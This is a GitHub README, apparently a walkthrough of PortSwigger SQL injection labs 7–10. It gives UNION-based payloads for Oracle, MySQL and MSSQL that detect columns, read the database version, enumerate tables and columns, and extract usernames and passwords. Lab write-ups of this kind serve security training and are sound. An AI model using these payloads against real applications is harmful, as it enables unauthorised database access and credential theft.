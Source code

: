 ## Summary
- [Lab7: SQL injection attack, querying the database type and version on Oracle](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab7-sql-injection-attack-querying-the-database-type-and-version-on-oracle)
- [Lab8: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab8-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft)
- [Lab9: SQL injection attack, listing the database contents on non-Oracle databases](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab9-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases)
- [Lab10: SQL injection attack, listing the database contents on Oracle](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab10-sql-injection-attack-listing-the-database-contents-on-oracle)

### Lab7: SQL injection attack, querying the database type and version on Oracle
> 1. **If we will test an oracle database, we must use a `dual` special table during selecting null values because it will get an error if we selected anything even if it was the right thing for a number of columns.** 
> 2. **`dual` table used for evaluating expressions or calling functions.**
- Check out: [oracle-dual-table](https://www.oracletutorial.com/oracle-basics/oracle-dual-table/)
- Check out: [docs.oracle.com/](https://docs.oracle.com/cd/B19306_01/server.102/b14200/queries009.htm)
- We will track our methodology and test in the first the number of columns used in the query of the application:

```
category=' UNION SELECT null,null from dual--
```
- After detecting there are 2 columns, We found a column that has a string data type:

```
category=' UNION SELECT 'test',null from dual--
```
- A simple proof-of-concept test is to extract the version string of the database, which can be done on any DBMS.
- This injected query will achieve that.
```
category=' UNION SELECT banner,null from v$version--
```

![lab7.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab7.png)
- There is another way to extract the version of the oracle database.

```
category=' UNION SELECT version,null from v$instance--
```

![lab7_version.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab7_version.png)

-----------------------------------------------------------------------

### Lab8: SQL injection attack, querying the database type and version on MySQL and Microsoft
> **`Note` In MySQL syntax query you must add the space after the double dash during the comment so I suggest using URL encoding to obfuscate it when you inject your payload with `--` but also you can use `#` to comment.**
 
 - Check out: [Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

- Test the number of columns for `MySQL` or `Microsoft SQL Server` database.
```
category=' UNION SELECT null,null--
category=' UNION SELECT null,null#
```
- Test which one of them is a text column and you will find the 2 columns receive a string value.
```
category=' UNION SELECT 'test','test'-- 
category=' UNION SELECT 'test','test'#
```
- Extract the version in any column of them.
```
category=' UNION SELECT @@version,null--
category=' UNION SELECT @@version,null#
```

![lab8_space.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab8_space.png)

-----------------------------------------------------------------------

### Lab9: SQL injection attack, listing the database contents on non-Oracle databases
- To extract any data from the database, we need to know two essential things:
	1. The name of the table you will return data from.
	2. The name of columns for this table which you will select.
- But how can we do that without knowing them?
	- We can use the `information_schema` database, It is designed to hold database metadata and provide information about the database.
	- It is supported by MS-SQL, MySQL, and many other databases other than `Oracle`.
	- Now we can know the names of the database tables and columns from `information_schema`.

- Here as we used to start with testing the number of columns and their data type.
```
category=' union select null,null from information_schema.tables--
category=' union select 'test','test' from information_schema.tables--
```
- We try to selects the columns from table is called `tables`.
- So in the first, we will try to extract the names of the tables for the database.

```
category=' union select table_name,null from information_schema.tables--
```

![lab9_table_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9_table_name.png)

- We will find an interesting table called `users_(random_characters)`, so now we can try to extract the name of columns from the `columns` table but we will identify the table name which we need to return its columns in the query.
```
category=' union select column_name,null from information_schema.columns where table_name='users_vlfwzh'--
```

![lab9_column_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9_column_name.png)

- The query retrieved two columns, and now the last phase is extracting the data of usernames and passwords from the `users` table.
```
category=' union select username_cluojr, password_fkpkqk from users_vlfwzh--
```

![lab9.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9.png)

-----------------------------------------------------------------------

### Lab10: SQL injection attack, listing the database contents on Oracle
- Here we will test the number of columns and their data type by using `dual` table because it is an oracle database, and if you tried to test without this table, you will get an error.

```
category=' union select null,null from dual--
category=' union select 'test','test' from dual--
```
- Oracle doesn’t support the `information_schema` but it provides `all_tables` data dictionary which we can query to list all tables in oracle.

```
category=' union select table_name,null from all_tables--
```

![lab10_table_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10_table_name.png)

- After listing all tables, we will go to list all columns in the `users_(random_characters)` table but we will use the `all_tab_columns` table to retrieve information about columns in the database.

```
category=' union select column_name,null from all_tab_columns where table_name='USERS_ZXHNHP'--
```

![lab10_column_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10_column_name.png)

- Finally, we will extract the data of usernames and passwords.

```
category=' union select USERNAME_EXOKDN, PASSWORD_YEICFS from USERS_ZXHNHP--
```

![lab10.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10.png)


![I got you](https://c.tenor.com/gJto5WLSSVEAAAAC/the-batman-penguin.gif)
